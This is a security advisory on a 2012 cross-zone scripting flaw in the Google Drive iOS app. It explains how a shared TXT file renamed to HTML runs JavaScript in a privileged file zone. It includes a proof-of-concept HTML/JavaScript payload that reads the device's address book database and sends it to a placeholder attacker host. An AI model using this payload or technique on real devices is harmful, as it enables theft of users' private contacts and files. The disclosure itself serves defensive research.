```yaml
---
layout: vuln
credit:
    - roi
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2012-10-18' 
alephid: ALEPH-2012000
date: '2012-10-18'
title: 'Google Drive iOS App Cross-Zone Scripting'
severity: moderate
product:
    - Google Drive App for iOS
    
vulnerable: 
    - 1.0.1
references:
    - src: Paper
      url: http://blog.watchfire.com/files/googledriveadvisory.pdf
---
```

A significant feature of the Google Drive app is allowing a user to view either his files or files shared with him. The Google Drive app achieves this by using an embedded browser (using the UIWebView class) to display the contents of these files. Although many file types can be viewed using the embedded browser, some file types cannot - possibly for security reasons. For instance, when a user attempts to view the contents of a file with a TXT extension the embedded browser displays the contents of that file. However, if the user attempts to view an HTML file, the Google Drive application displays the error message: “Unable to open file”, and the HTML file is not rendered. 

To circumvent this restriction on rendering HTML files, an attacker can:
1. Share an innocuous file with the victim. An empty TXT file will suffice.
2. Trick the victim into viewing that file, by going to the “Shared with me” screen in the Google Drive app.
3. Change the shared file extension from TXT to HTML, and then insert maliciously crafted HTML/JavaScript content.
4. Convince the victim to view the TXT file again (without refreshing the “Shared with me” view).

Since the Google Drive app still “believes” the file to be a TXT file, it renders it using the embedded browser.
However, the UIWebView now renders the newly downloaded and locally stored HTML content. This has two side effects:
1.JavaScript code contained in the HTML file is automatically executed.
2. The HTML content is loaded in a privileged “file” zone, as opposed to an unprivileged HTTP location.
Execution of malicious JavaScript code allows an attacker to steal potentially valuable information from the
DOM of the embedded browser, an attack dubbed “Cross-Application Scripting” (XAS). However, because Google Drive loads the HTML file from a privileged zone this malicious JavaScript can also access the file system with the same permissions as the Google Drive app.

## Proof-of-Concept

The following PoC illustrates a malicious HTML file that steals the user’s iPhone/iPad address book:
```html
<html>
<head>
    <title>Malicious HTML File!</title>
</head>
<body>
    <script>
        function readGoogleDriveFileiOS(fileName) {
            // Create a new XHR Object
            x = new XMLHttpRequest();
            // When file content is available, send it back
            x.onreadystatechange = function () {
                if (x.readyState == 4) {
                    x2 = new XMLHttpRequest();
                    x2.onreadystatechange = function () {};
                    // x.responseText contains the content of fileName
                    // which we’ll send back to ATTACK_SITE
                    x2.open("GET", "http://ATTACK_SITE/?file_content=" +
                    encodeURI(x.responseText));
                    x2.send();
                }
            }
            // Try to read the content of the specified file
            x.open("GET", fileName);
            x.send();
        };
        // Reads the user’s address book
        readGoogleDriveFileiOS("file:///var/mobile/Library/AddressBook/
        AddressBook.sqlitedb");
    </script>
    <h1>This malicious file will now leak the user’s address book!</h1>
    </body>
</html>
```
